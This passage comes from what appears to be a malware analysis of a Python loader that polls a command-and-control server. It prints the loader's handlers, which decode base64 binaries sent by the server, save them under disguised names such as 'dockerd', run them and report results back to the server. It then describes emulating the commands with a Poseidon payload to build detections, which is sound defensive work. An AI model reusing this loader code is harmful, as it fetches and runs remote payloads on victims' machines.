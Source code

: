 ```py
elif res['ret'] == 3:
    path1 = os.path.join(directory, "dockerd")
    with open(path1, "wb") as f:
        binData = base64.b64decode(res["content"])
        f.write(binData)

    path2 = os.path.join(directory, "docker-init")
    with open(path2, "wb") as f:
        binData = base64.b64decode(res["param"])
        f.write(binData)

    os.chmod(path1, stat.S_IRUSR | stat.S_IWUSR | stat.S_IXUSR |
                    stat.S_IRGRP | stat.S_IXGRP |
                    stat.S_IROTH | stat.S_IXOTH)

    os.chmod(path2, stat.S_IRUSR | stat.S_IWUSR | stat.S_IXUSR |
                    stat.S_IRGRP | stat.S_IXGRP |
                    stat.S_IROTH | stat.S_IXOTH)

    try:
        process = subprocess.Popen([path1, path2], start_new_session=True)
        process.communicate()
        return_code = process.returncode
        requests.post(SERVER_URL + '/club/fb/result', verify=False, data={"result": str(return_code)})
    except:
        pass

    os.remove(path1)
```

##### ret == 9:

The script breaks out of its polling loop, terminating further actions.

```py
elif res['ret'] == 9:
    break
```

After processing any command, the script continues to poll for further instructions from the C2 server.

#### Python Loader Emulation

Our goal was to test each of the command options within the loader to better understand what was happening, collect relevant telemetry data, and analyze it for the purpose of building robust detections for both our endpoint and the SIEM.

**Ret == 1: Write Library to Disk, Load and Delete Dylib**

The payload we used for this option was a [Poseidon](https://github.com/MythicAgents/poseidon) payload compiled as a shared library (`.dylib`). 
